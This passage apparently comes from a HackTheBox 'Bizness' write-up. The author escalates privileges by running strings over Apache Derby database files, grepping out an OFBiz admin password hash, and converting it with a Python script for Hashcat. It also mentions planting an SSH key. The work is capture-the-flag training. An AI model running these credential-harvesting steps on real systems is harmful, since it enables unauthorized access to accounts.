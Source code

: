 After resetting the machine I try to kill the `gradle` process again, with the untouched startup script, and the same thing happens. Weird, considering the `Restart=Always` in the config above.

I had put my pubkey on the target so I could login via SSH, but then my shell died again so I think HTB noticed the service was dead and reset the box. Ugh.

Onto another PE vector. LinPEAS highlighted a few "Modified interesting files in the last 5mins", many of which were in the `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` directory. I investigated those and found what looks like database files, probably from [Apache Derby](https://db.apache.org/derby/).

Instead of taking the time to properly access the database contents from the raw files, I resorted to grubbing around with `strings`:

```console
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ cat *.dat | strings > /tmp/strings
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ vi -R /tmp/strings
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ grep currentPassword /tmp/strings
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

I do a little research and figure this is Apache Ofbiz's way of representing a SHA hash. The trick is converting from the base64 format into hexadecimal.

```python
#!/usr/bin/python3
import base64
# Base64 encoded hash from OFBiz
encoded_hash = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
# Ensure the base64 string is correctly padded
padding = '=' * (-len(encoded_hash) % 4)
encoded_hash_padded = encoded_hash + padding
# Decode the base64 to get the binary hash
binary_hash = base64.b64decode(encoded_hash_padded.replace("-", "+").replace("_", "/"))
# Convert the binary hash to a hex string
hex_hash = binary_hash.hex()
# Print the hash in a format suitable for Hashcat
print(hex_hash)
```

```console
$ python3 ./recode_hash.py
b8fd3f41a541a435857a8f3e751cc3a91c174362
```

This is also possible (and easier) using [CyberChef](https://gchq.github.io/CyberChef/).
